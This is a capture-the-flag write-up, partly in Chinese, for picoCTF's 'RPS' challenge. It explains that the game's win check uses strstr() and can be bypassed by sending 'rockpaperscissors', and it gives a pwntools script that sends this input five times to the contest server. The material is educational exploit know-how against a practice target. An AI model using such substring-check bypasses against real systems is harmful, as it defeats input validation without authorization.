 # RPS

## Inforamtion

### Description

Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.
Connect to the program with netcat:
$ nc saturn.picoctf.net 56981
The program's source code with the flag redacted can be downloaded here.

### Hints

How does the program check if you won?

## Soliution

1. Discovery
 
2. Research
    * 觀察程式可以發現，當在比較時是透過 `strstr()` 做比較。
    * `strstr()`: Returns a pointer to the first occurrence of str2 in str1, or a null pointer if str2 is not part of str1.
        * 表示只要 str2 是 str1 的一部分就不會回傳 NULL。 
        ```c
            const char * strstr ( const char * str1, const char * str2 );
        ```
    * 可以發現輸入是使用 `read()` ，表示可以任意輸入固定大小。
    * 輸入繞過 `strstr()`( 5 次)，使所有可能輸入串再一起，則不論電腦為任一選項都會成功達成勝利條件。
        * payload = rockpaperscissors

3. Exploitation
    ```py
        #! /usr/bin/env python

        from pwn import *
            
        # nc saturn.picoctf.net 56981
        p = remote(host='saturn.picoctf.net', port=56981)

        payload = b'rockpaperscissors'

        for _ in range(5):
            p.sendlineafter(b"Type '2' to exit the program", b'1')
            p.sendlineafter(b'Please make your selection (rock/paper/scissors):', payload)
            
        log.info(p.recvall())

    ```

